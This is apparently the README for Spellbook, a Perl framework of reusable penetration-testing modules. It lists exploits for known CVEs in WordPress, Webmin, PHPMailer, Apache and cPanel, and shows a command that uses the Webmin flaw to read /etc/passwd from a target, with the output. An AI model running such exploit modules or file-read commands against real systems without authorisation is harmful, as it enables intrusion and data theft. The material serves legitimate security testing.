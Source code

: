 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.3.3-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpanm --installdeps .
```

---

### How to use

```
Spellbook v0.3.3
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ ./spellbook.pl --search advisory

Module: Advisory::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Advisory::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================

Module: Advisory::CVE_2016_10045
Description: PHPMailer < 5.2.20 Remote Code Execution PoC 0day Exploit (CVE-2016-10045) (Bypass of the CVE-2016-1033 patch)
=================================================

Module: Advisory::CVE_2021_41773
Description: Exploit path Traversal or RCE in Apache HTTP Server 2.4
=================================================

Module: Advisory::CVE_2023_29489
Description: Exploit for cPanel Reflected XSS - CVE-2023-29489
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Advisory::CVE_2006_3392 --help

Advisory::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Advisory::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Docker container

```
$ docker build -t spellbook .
$ docker run -ti --rm spellbook --search exploits
```

---

### Contribution

Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

---

### License

This work is licensed under [MIT License.](/LICENSE.md)